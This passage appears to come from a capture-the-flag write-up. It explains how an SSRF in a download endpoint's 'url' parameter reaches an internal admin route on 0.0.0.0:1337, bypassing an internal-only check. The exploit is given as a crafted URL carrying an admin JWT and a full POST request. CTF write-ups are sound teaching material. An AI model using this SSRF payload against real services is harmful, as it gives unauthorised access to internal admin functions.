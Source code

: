 <img src="https://github.com/blog-tamilctf/blog-tamilctf.github.io/blob/main/assets/img/internal.jpg?raw=true" height=400px>

- We have a valid admin token, now we need to bypass the `checkInternal(req)` function.

#### More SSRF:

- Since we have an ssrf within the url param and we can use that to call the internal endpoint? and it will satisfy the `checkInternal(req)`.

- By going through the source file,the application was exposed on 1337 port and binded on 0.0.0.0

```
const port = 1337;
	app.listen(port, '0.0.0.0', ())
```

- We can supply `http://0.0.0.0:1337/admin?token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJyb2xlIjoiYWRtaW4iLCJyZXF1aXJlZFJvbGUiOiJhZG1pbiIsImlhdCI6MTcxNjIxMjM3M30.Cf49E4-_dHEoTBfMfplbKikF1ns-LDjWR5ftHG-9bfk` in the url to see the response.

```
POST /download?token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJyb2xlIjoidXNlciIsImlhdCI6MTcxNjIxMDUzMX0.2gwPTRqbPfj4Axbz2B3t4HNWHHdcgIXgTCcCyGaupW0 HTTP/1.1
Host: host:30586
Content-Type: application/x-www-form-urlencoded
Content-Length: 89

url=http://0.0.0.0:1337/admin?token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJyb2xlIjoiYWRtaW4iLCJyZXF1aXJlZFJvbGUiOiJhZG1pbiIsImlhdCI6MTcxNjIxMjM3M30.Cf49E4-_dHEoTBfMfplbKikF1ns-LDjWR5ftHG-9bfk
```
